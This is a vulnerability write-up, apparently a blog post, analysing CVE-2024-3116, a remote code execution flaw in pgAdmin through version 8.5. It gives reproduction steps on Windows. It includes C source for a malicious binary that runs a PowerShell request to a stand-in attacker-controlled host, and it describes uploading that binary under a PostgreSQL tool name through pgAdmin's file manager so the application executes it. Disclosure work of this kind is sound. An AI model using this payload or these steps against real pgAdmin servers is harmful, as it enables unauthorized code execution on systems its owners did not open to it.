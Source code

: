 ```yaml
---
layout: post
title:  "CVE-2024-3116 – Remote Code Execution Vulnerability in pgAdmin - PostgreSQL Tools (<=8.5): Detailed Analysis Report"
---
```



The following write-up guides you through the discovery of a critical Remote Code Execution (RCE) vulnerability in pgAdmin (<=8.5) a widely used administrative tool for PostgreSQL databases, which presents a significant concern. the vulnerability can be identified with CVE-2024-3116 

The analysis provided offers a thorough examination of the vulnerability's root cause, primarily linked to inadequate validation of file paths within PGAdmin, enabling unauthorized code execution. This issue poses a considerable risk on Windows platforms, attributed to their more permissive approach to executable file permissions. This write-up details the steps involved in creating and executing a malicious executable designed to exploit this vulnerability on Windows, along with an explanation of why such an exploit is impractical on *nix systems without explicit user intervention.

At the heart of our discussion is a focused review of the malicious code used to exploit this vulnerability and the remediation efforts undertaken by PGAdmin's development team. The applied patch significantly improves the path validation processes.

## Detailed Steps to Reproduce the Vulnerability

#### Compilation of Malicious Binary

The attack begins with compiling the following C code into a binary. This code, upon execution, uses the `system` function to make an outbound HTTP request to a specified attacker-controlled URL.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    if (argc > 1 && strcmp(argv[1], "--version") == 0) {
        system("powershell.exe -Command \"Invoke-RestMethod http://<randomstr>.attacler-controlled.com\"");
    } else {
        printf("Usage: %s --version\n", argv[0]);
    }
    return 0;
}
```

#### Uploading the Malicious Binary:
The binary is uploaded via an API endpoint designed for file management within PGAdmin. Naming the binary to mimic essential PostgreSQL utilities tricks the application into executing it as if it were a legitimate operation. e.g, pg_dump, pg_dumpall, pg_restore, psql

```python
@blueprint.route("/filemanager/<int:trans_id>/", methods=["POST"], endpoint='filemanager')
@login_required
def file_manager(trans_id):
    ...
```
You can either use the API or use the browser directly as you can see in the screenshot below:
